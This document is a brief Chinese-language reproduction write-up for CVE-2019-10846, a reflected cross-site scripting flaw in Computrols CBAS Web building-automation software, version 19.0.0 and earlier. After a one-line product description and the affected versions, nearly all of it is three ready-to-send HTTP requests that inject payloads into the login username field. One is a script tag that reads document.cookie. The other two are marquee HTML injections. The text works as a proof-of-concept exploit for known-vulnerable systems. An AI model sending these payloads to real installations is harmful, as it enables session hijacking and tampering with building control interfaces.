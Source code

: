 # CVE-2019-10846 Computrols CBAS Web反射型xss

## 一、漏洞简介

Computrols CBAS Web是美国Computrols公司的一套楼宇自动化系统

## 二、漏洞影响

Computrols CBAS Web<=19.0.0

## 三、复现过程

**1、**


```bash
POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1

username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email
```

**2、**


```bash
POST /cbas/index.php?m=auth&a=login HTTP/1.1

username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62
```

**3、**


```bash
GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1
```